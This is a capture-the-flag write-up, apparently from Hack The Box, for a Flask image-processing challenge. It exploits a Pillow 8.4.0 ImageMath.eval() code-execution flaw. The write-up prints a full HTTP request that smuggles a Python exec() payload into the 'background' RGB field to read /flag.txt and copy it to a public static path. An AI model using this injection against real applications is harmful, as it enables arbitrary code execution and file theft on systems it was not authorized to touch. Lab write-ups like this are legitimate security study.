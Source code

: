 # Amidst Us

> The AmidstUs tribe is a notorious group of sleeper agents for hire. We have plausible reasons to believe they are working with Draeger, so we have to take action to uncover their identities. Ulysses and Bonnie have infiltrated their HQ and came across this mysterious portal on one of the unlocked computers. Can you hack into it despite the low visibility and get them access?

---

The target is a Flask web application.

## Site Map

- `GET /`
- `POST /api/alphafy`
	- Takes a JSON body with keys `image` and `background`
		- `image` is the string of a base64-encoded image
		- `background` is an array of three integer values (RGB color)
	- Passes JSON body to `application.util.make_alpha()`

```json
POST /api/alphafy HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/json
Origin: http://localhost:1337
Content-Length: 3383
Connection: close

{
	"image": "...",
	background": [171, 205, 239]
}
```

## `util.make_alpha()`

Extracts `background` key (RGB value as a list of three integers) from JSON body and passes each value into [Pillow's](https://pillow.readthedocs.io/en/stable/) `ImageMath.eval()`. There exists an [RCE vulnerability](https://github.com/advisories/GHSA-8vj2-vxx3-667w) in the `ImageMath.eval()` function in Pillow versions before 9.0.0 that allows an attacker to execute arbitrary Python. The target's Pillow version is 8.4.0, indicating it is likely vulnerable.

```bash
$ cat requirements.txt
wheel
Pillow==8.4.0
```

The following payload will read the flag and write it to the path `/static/flag.txt`.

```http
POST /api/alphafy HTTP/1.1
Host: 206.189.126.144:31375
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://206.189.126.144:31375/
Content-Type: application/json
Origin: http://206.189.126.144:31375
Content-Length: 3521
Connection: close

{
	"image": "iVBORw0KGgo...Jggg==",
	"background": [
		"int(exec(\"f1 = open('/flag.txt'); f2 = open('/app/application/static/flag.txt', 'w'); f2.write(f1.read()); f1.close(); f2.close()\") or 1)",
		255,
		255
	]
}
```

```bash
$ curl http://206.189.126.144:31375/static/flag.txt
HTB{...}
```
	